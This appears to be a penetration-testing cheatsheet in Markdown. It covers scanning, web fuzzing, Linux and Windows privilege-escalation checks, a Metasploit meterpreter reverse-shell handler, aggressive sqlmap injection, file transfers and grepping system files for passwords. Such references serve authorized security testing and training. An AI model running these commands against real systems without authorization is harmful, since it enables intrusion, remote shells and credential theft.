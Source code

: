 # Offensive Security Cheatsheet 🚀

*"Knowledge is power. Share it wisely." - Unknown*

## 🔍 Scanning & Enumeration

### Nmap
```bash
# Basic TCP scan
nmap -sV -sC -oA scan_results <TARGET_IP>
```

### Masscan

```bash
# Blazing fast scan
masscan -p1-65535 <TARGET_IP> --rate=1000 -e tun0
```

## 🕵️‍♂️ Web Enumeration

### FFUF (Web Fuzzing)

```bash
# Directory brute-forcing
ffuf -w /path/to/wordlist -u http://<TARGET>/FUZZ -mc 200 -fs 4242
```
```bash
# Vhost discovery
ffuf -w subdomains.txt -u http://<TARGET> -H "Host: FUZZ.<TARGET>" -fs 0
```
### Gobuster

```bash
gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -x php,html
```

## 🔑 Privilege Escalation

### Linux PrivEsc


```bash
# SUID finder
find / -perm -4000 -type f 2>/dev/null
```
```bash
# Kernel exploits
uname -a; searchsploit <kernel_version>
```
### Windows PrivEsc


```powershell
# Service permissions
accesschk.exe /accepteula -uwcqv *
```
```powershell
# AlwaysInstallElevated check
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## 🛠️ Exploitation

### Metasploit

```bash
# Basic workflow
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
exploit
```
### SQL Injection

```bash
sqlmap -u "http://site.com/page?id=1" --risk=3 --level=5 --batch
```

## 📦 Post-Exploitation

### File Transfers

```bash
# Python HTTP server
python3 -m http.server 8000
```
```bash
# SCP download
scp user@target:/path/to/file .
```
### Credential Hunting

```bash
# Find passwords in files
grep -riE 'password|passwd|cred' /etc/ 2>/dev/null
```

## 📚 Resources

### GTFOBins

### PayloadsAllTheThings

### HackTricks
